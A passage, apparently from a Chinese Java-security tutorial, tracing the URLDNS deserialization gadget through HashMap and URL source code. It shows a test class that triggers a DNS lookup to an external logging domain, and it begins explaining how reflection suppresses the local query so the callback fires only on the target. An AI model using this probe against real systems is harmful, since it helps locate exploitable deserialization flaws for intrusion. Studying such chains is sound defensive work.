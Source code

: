 回到第一步：HashMap#readObject

key是使用readObject取出来的，也就是说在writeObject一定会写入key
```java
private void writeObject(java.io.ObjectOutputStream s)
        throws IOException {
        int buckets = capacity();
        // Write out the threshold, loadfactor, and any hidden stuff
        s.defaultWriteObject();
        s.writeInt(buckets);
        s.writeInt(size);
        internalWriteEntries(s);
    }
```
跟入internalWriteEntries
```java
void internalWriteEntries(java.io.ObjectOutputStream s) throws IOException {
        Node<K,V>[] tab;
        if (size > 0 && (tab = table) != null) {
            for (int i = 0; i < tab.length; ++i) {
                for (Node<K,V> e = tab[i]; e != null; e = e.next) {
                    s.writeObject(e.key);
                    s.writeObject(e.value);
                }
            }
        }
    }
```
这里的key以及value是从tab中取的，而tab的值即HashMap中table的值。

此时我们如果想要修改table的值，就需要调用HashMap#put方法，而HashMap#put方法中也会对key调用一次hash方法，所以在这里就会产生第一次dns查询
```java
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```
即
```java
import java.util.HashMap;
import java.net.URL;

public class Test {

    public static void main(String[] args) throws Exception {
        HashMap map = new HashMap();
        URL url = new URL("http://xrgsnqezso.yutu.eu.org");
        map.put(url,123); //此时会产生dns查询
    }
```
只想判断payload在对方机器上是否成功触发，那就应该避免掉这一次dns查询以及多余的操作，回到URL#hashCode：
```java
public synchronized int hashCode() {
      if (hashCode != -1)
          return hashCode;

      hashCode = handler.hashCode(this);
      return hashCode;
  }
```
这里会先判断hashCode是否为-1，如果不为-1则直接返回hashCode，也就是说我们只要在put前修改URL的hashCode为其他任意值，就可以在put时不触发dns查询。(hashCode默认值为-1)
![](https://img.l1uyun.one/javasec-urldns链_image_1.png)
这里的hashCode是private修饰的，所以我们需要通过反射来修改其值
```java
    public static void main(String[] args) throws Exception {
        HashMap map = new HashMap();
```